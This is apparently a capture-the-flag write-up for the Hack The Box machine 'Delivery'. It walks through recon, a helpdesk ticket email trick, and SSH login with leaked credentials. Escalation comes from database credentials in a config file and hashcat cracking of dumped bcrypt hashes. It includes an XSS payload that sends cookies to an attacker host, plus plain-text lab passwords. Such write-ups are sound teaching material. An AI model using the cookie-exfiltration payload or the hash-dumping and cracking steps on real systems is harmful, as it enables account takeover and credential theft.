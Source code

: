 ```yaml
---
description: Writeup for Delivery from Hack the Box
---
```


# Delivery

## Recon

`nmap -sV -T4 -p- 10.10.10.222`

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
```

![](../../.gitbook/assets/d19986c0d5204e72993216b2f50db675.png)

From the website, there are two links:

* `http://delivery.htb:8065/`
* `http://helpdesk.delivery.htb/`

Add the following to the `/etc/hosts` file:

```text
10.10.10.222    delivery.htb
10.10.10.222    helpdesk.delivery.htb
```

Note the information here:

![](../../.gitbook/assets/20186eb6df5f41e69dead7458d71b607.png)

We don't have a `@delivery.htb` account, so we won't be able to access the MatterMost server just yet.

### helpdesk.delivery.htb

![](../../.gitbook/assets/84c2e5f591344edebb84c8686a72a2e9.png)

When submitting a ticket, the system is vulnerable to XSS.

#### 1st Try: Cookie Stealing

```javascript
<script> var i = new Image(); i.src = "http://10.10.14.16/log.php?q=" + escape(document.cookie); </script>
```

![](../../.gitbook/assets/bab1ba1f14ec4f029a48a48b04b93043.png)

Unfortunately this doesn't work, anything with `<script></script>` is removed.

#### 2nd Try: Look Closer

Note that after creating a ticket, it says:

![](../../.gitbook/assets/f7f06910bf8d49668c8136fe78e821ef.png)

**"If you want to add more information... just email ..."**

So does this email simply forward everything it receives to the ticket?

### delivery.htb:8065

This is a MatterMost server. I went ahead and created an account with 7317917@delivery.htb as the email address. This was previously not possible because

1. We needed a `@delivery.htb` email and
2. We needed email verification

The email does indeed forward everything to the ticket content:

![](../../.gitbook/assets/9447f230a5ae4cefadf7b4027efb8b5e.png)

By navigating to the link in the email, we can verify our account.

![](../../.gitbook/assets/2011926309f24af2a4808fb5d338f14e.png)

And we can log in to view some sensitive information:

![](../../.gitbook/assets/4a04ed6e3b6047f89bcdab46015abc20.png)

## Foothold

We can use the `maildeliverer:Youve_G0t_Mail!` credential combination to authenticate and obtain SSH access to the server.

### User Flag

Right after we authenticate in, we are greeted by the `user.txt` flag.

![](../../.gitbook/assets/761ea34c6f24408faa5207350e4fe1ac.png)

## Privesc

After a bit of exploring:

`cat /opt/mattermost/config/config.json`

![](../../.gitbook/assets/06beae2c860647c9abf079cfcfde1ae0.png)

Under the `SqlSettings`, the `mmuser:Crack_The_MM_Admin_PW` is used for the `mysql` database credentials. We can login to the 'local' MariaDB server:

`mysql -u mmuser -p` \(`-u USERNAME -p`, then enter the password when prompted\)

![](../../.gitbook/assets/24faaf43edfe4a72a03604a8c5c4339d.png)

### MariaDB

`SHOW DATABASES;`

![](../../.gitbook/assets/88eab6e89c7a4523ad792e4d04eba992.png)

Use the `mattermost` database: `USE mattermost;`

Dump `mattermost.Users` table: `SELECT * FROM Users;`

I copied this into a text file.

![](../../.gitbook/assets/db8a3659e5494590afff3f05dd698060.png)

Compile the password hashes into a `users.hash` file:

```text
$2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK
$2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
$2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq
$2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm
```

Remember the message in the MatterMost channel earlier? Most of these passwords should be variations of "PleaseSubscribe!"

We were also hinted to use hashcat rules.

Result of Googling: [https://www.4armed.com/blog/hashcat-rule-based-attack/](https://www.4armed.com/blog/hashcat-rule-based-attack/)

Rules file: `cp /usr/share/hashcat/rules/best64.rule rules`

Running hashcat on my host MacOS: `hashcat -m 3200 users.hash wordlist -r rules` \(since hashcat requires a _GPU_\)

Show cracked hash: `hashcat -m 3200 users.hash --show`

```text
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

Cross-checking with the `users.hash` file, the `root` password is `PleaseSubscribe!21`.

### Root Flag

From the `maildeliverer` bash shell: `su`, then use the `PleaseSubscribe!21` password.

![](../../.gitbook/assets/a4ef0c0551c342cebe25862839fb6a03.png)


